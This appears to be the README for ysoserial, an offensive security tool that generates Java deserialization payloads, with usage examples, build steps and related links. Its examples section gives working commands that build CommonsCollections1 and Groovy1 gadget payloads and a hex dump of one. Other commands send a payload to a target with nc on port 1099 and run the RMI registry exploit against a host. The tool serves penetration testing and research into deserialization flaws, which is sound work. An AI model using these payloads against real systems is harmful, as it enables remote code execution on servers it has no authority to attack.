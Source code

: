 ## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
   [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
   [![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
